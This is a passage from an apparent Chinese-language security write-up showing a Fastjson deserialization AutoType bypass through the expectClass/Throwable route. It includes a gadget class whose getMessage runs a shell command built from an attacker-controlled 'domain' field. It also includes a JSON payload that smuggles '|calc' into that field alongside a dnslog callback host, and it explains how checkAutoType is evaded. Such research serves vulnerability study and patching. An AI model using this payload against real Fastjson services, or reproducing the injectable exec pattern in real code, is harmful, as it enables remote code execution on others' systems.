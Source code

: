 ```

import java.io.IOException;

public class ViaThrowable extends Exception {
    private String domain;

    public ViaThrowable() {
        super();
    }

    public String getDomain() {
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public String getMessage() {
        try {
            Runtime.getRuntime().exec("cmd /c ping "+domain);
        } catch (IOException e) {
            return e.getMessage();
        }
        return super.getMessage();
    }
}

```

测试载荷：

```
package org.heptagram.fastjson;
import com.alibaba.fastjson.JSONObject;

public class ThrowableMain {
    public static void main(String[] args) {
        String payload ="{\n" +
                "  \"@type\":\"java.lang.Exception\",\n" +
                "  \"@type\": \"org.heptagram.fastjson.ViaThrowable\",\n" +
                "  \"domain\": \"qbknro.dnslog.cn|calc\"\n" +
                "}";
        JSONObject.parseObject(payload);
    }
}


```

在上面的载荷中我们一共传入了两个 @type，其中第一个是期望类 (expectClass)，第二个是需要反序列化的类，经过这样构造后在检查 AutoTypeSupport 之前就已经返回了 clazz，之后接着为期望类选择反序列化的解析器，从而匹配到了 Throwable.class，之后当扫描到第二个 @type 指定的类名后将其作为 exClassName 传入 checkAutoType，此时 checkAutotype 传入的第二个参数为 Throable.class 也为 Exception.class 的接口，此时如果 exClassName 是实现或继承自 Throwable 就能过 checkAutotype，下面是执行的结果：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422112808-c1ef607a-a31a-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210422112808-c1ef607a-a31a-1.jpg)
